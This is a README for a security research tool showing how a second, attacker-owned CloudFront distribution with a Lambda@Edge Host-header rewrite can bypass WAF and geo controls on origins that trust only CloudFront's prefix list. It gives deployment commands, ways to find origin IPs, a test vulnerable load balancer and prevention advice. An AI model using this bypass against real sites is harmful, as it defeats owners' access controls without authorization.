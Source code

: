 # CloudFront Prefix List Bypass

A cloud security research tool demonstrating **CloudFront bypass**. It's designed to test AWS architectures that rely solely on **managed prefix list** for protection *without* properly implementing [origin cloaking](https://aws.amazon.com/developer/application-security-performance/articles/origin-cloaking).

## Overview

**Amazon CloudFront** - AWS Content Delivery Network (CDN) service - serves as entry point to web applications, where *security controls* such as **Web Application Firewalls** are typically implemented. Some organizations restrict access to **public origins** (*e.g.: Application Load Balancers*) using [Amazon Managed Prefix Lists](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/LocationsOfEdgeServers.html#managed-prefix-list), assuming that limiting access to CloudFront IPs via *Security Groups* provides a sufficient protection.

This tool demonstrates why this approach may be insufficient without additional security measures. **Since CloudFront IP addresses are shared across multiple accounts**, attackers could use their own *Distribution* with a custom DNS record to directly access the origin. By leveraging *Lambda@Edge* to inject the expected **Host header**—matching the target website's virtual host and TLS certificate—they can **bypass CDN-level security controls** (e.g., AWS WAF or geographic restrictions).

## Quick Start

The commands below will help you set up the AWS attacker account with:
- A **Lambda** that modifies the *host-header* in the **N. Virginia** region, along with the IAM role and permissions required for [edge functions](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/lambda-at-the-edge.html)
- A CloudFront Distribution **for each target origin** you want to access (using different *stack names*).

### Template Parameters

`attacker-cf-distro.yml` accepts the following parameters as input values:
- **HostHeader**: The *website DNS name* expected by the origin
- **OriginDomain**: A *custom DNS record* pointing to the origin
- **Protocol** (*Optional*): The *protocol* to use for origin connections
  - Default: [match-viewer](https://docs.aws.amazon.com/it_it/AWSCloudFormation/latest/UserGuide/aws-properties-cloudfront-distribution-customoriginconfig.html#cfn-cloudfront-distribution-customoriginconfig-originprotocolpolicy)
  - Allowed values:
    - http-only
    - https-only
    - match-viewer
- **AllowedCIDR** (*Optional*): A *CIDR range* allowed via AWS WAF to access the distribution.
    - Default: "" (empty string = no WAF, all access allowed)

### Deployment Steps

Install and configure **AWS CLI** on a Linux environment as prerequisite (launch the following commands with the proper *--profile* if needed) or manually upload the template using **AWS CloudFormation** Console.

1. Clone the repository

    ```bash
    git clone https://github.com/f-lucini/cloudfront-prefix-list-bypass.git
    cd cloudfront-prefix-list-bypass
    ```

2. Setup Lambda@Edge (first time only)
    ```bash
    aws cloudformation deploy \
        --template-file attacker-lambda-setup.yml \
        --stack-name sethost-lambda --region us-east-1
    ```

3. Deploy the attacker's distribution

    ```bash
    # Set the required variables
    header="example.domain" # The DNS name expected by the website
    target="record.custom" # The origin address (see next section for details)

    # In this example only your IP can access the distribution
    # remove AllowedCIDR parameter to allow everyone to connect
    aws cloudformation deploy \
        --template-file attacker-cf-distro.yml \
        --stack-name cf-bypass \
        --parameter-overrides \
            HostHeader=$header \
            OriginDomain=$target \
            AllowedCIDR=$(curl -s http://checkip.amazonaws.com/)/32 \
        --region us-east-1

    # Get the distribution domain name
    distribution=$(aws cloudformation describe-stacks \
        --stack-name cf-bypass \
        --region us-east-1 \
        --query 'Stacks[0].Outputs[0].OutputValue' \
        --output json | sed 's/\"//g')

    echo "Your distribution domain is: $distribution"
    ```

**Use the new distribution to access the origin** and bypass security settings on the original CDN:
- By default, the *Protocol* (HTTP or HTTPS) used to access the distribution is the same as that used to connect to the origin website. 
- Due to CloudFront’s certificate validation process for TLS origins—which relies on the Host header—the *OriginDomain* **does not need to match the domain name on the certificate**.
- This could be useful to target HTTPS since **discovering an origin's IP address could be easier than determining its DNS name** (i.e., EC2 load balancers contain random strings).

## Technical Details

### Find Origin Address

The techniques described in this section for uncovering the origin server address are based on methods detailed in [this article](https://infosecwriteups.com/finding-the-origin-ip-behind-cdns-37cd18d5275).

Several tools and techniques can be used:
- Tools like [CloakQuest3r](https://github.com/spyboy-productions/CloakQuest3r) or [SecurityTrails](https://securitytrails.com/) can:
  - Find misconfigured old records using **Subdomain scanning**
  - Retrieve **DNS historical values** from before CDN deployment
- Services like [Censys](https://search.censys.io/) and [CloudFlair](https://github.com/christophetd/CloudFlair) can be used to*:
  - **Scan the entire public internet** address space
  - Match IPs using **identical SSL certificates**
  - Identify origins by **excluding CloudFront IPs**
  
- Other techniques include:
  - [Shodan favicon map](https://faviconmap.shodan.io) for matching websites with **identical icons***
  - [WordPress pingback](https://www.invicti.com/blog/web-security/xml-rpc-protocol-ip-disclosure-attacks/) feature to log origin for **public EC2** instances

**assuming the origin was scanned before CloudFront prefix-list is applied*

### Reference Origin IP

After discovering the origin IP address, you'll need to reference it in your CloudFront Distribution. Since the **origin domain name** must be unique, you have several options:

1. Use DNS reverse lookup: `dig -x <IP>`
2. Use the standard [DNS string for EC2](https://www.reddit.com/r/aws/comments/6bple0/comment/dhokpps/) origins
3. Register a record on a custom domain (e.g., [no-ip](https://my.noip.com/dynamic-dns) offers one free subdomain)

>**Note:**
>When using an **HTTPS origin**, you might expect certificate validation errors since the certificate won't match the specified domain name. However, **CloudFront accepts the connection** because it validates using [the Host header](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/using-https-cloudfront-to-custom-origin.html#using-https-cloudfront-to-origin-certificate). While the Host header is *read-only* in CloudFront's **viewer request**, it can be modified in the [origin request](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/edge-function-restrictions-all.html#function-restrictions-read-only-headers)

### Prevention Guidelines
To protect against this bypass technique, implement origin cloaking effectively using:

- [VPC origins](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/private-content-vpc-origins.html) to prevent public access over the internet

- [Custom header validation](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/restrict-access-to-load-balancer.html) for public origins like ALBs

## Origin Example

This repository includes an **example of a vulnerable Application Load Balancer (ALB)** for testing purposes. The ALB is configured with these security controls:
- A listener that blocks requests unless the host header is *example.domain*
- Security group rules that only allow traffic from CloudFront's prefix list (for N. Virginia region)


```bash
# Deploy the vulnerable ALB
aws cloudformation deploy \
    --template-file vulnerable-origin-example.yml \
    --stack-name vulnerable-origin \
    --region us-east-1

# Get the ALB's DNS name
origin_dns=$(aws cloudformation describe-stacks \
    --stack-name vulnerable-origin \
    --region us-east-1 \
    --query 'Stacks[0].Outputs[0].OutputValue' \
    --output json | sed 's/\"//g')

# Simulate origin discovery through DNS resolution
origin_ip=$(echo $origin_dns | xargs -l dig +short | tail -1)

# Generate EC2 DNS name for us-east-1 region
target=$(echo ec2-$origin_ip | tr . - | xargs -I % echo %.compute-1.amazonaws.com)

# Set the host header to the required value
header="example.com"
```

Deploy the attacker distribution as described in the *Quick Start* section and connect to it using HTTP. To test HTTPS behaviour, you can use any public website's IP address, for example:
```bash
header="www.google.com"
ip=$(dig +short $header | tail -1)
target=$(dig -x $ip +short | tail -1 | sed 's/\.$//')
```

## Cleanup

1. Remove the attacker's CloudFront distribution using the chosen **stack-name**.

    ```bash
    aws cloudformation delete-stack --stack-name cf-bypass --region us-east-1
    ```

2. If you deployed the test ALB, remove it to avoid ongoing costs:

    ```bash
    aws cloudformation delete-stack --stack-name vulnerable-origin --region us-east-1
    ```

3. (*Optional*) Clean up the Lambda@Edge infrastructure if you no longer need it.

    **Note**: CloudFront needs several hours to [delete edge function replicas](https://docs.aws.amazon.com/AmazonCloudFront/latest/DeveloperGuide/lambda-edge-delete-replicas.html). Wait before running this command, or it may fail silently (you won't incur costs if lambda is not executed.)

    ```bash
    # Wait for function replicas deletion or stack will not be removed
    aws cloudformation delete-stack --stack-name sethost-lambda --region us-east-1
    ```
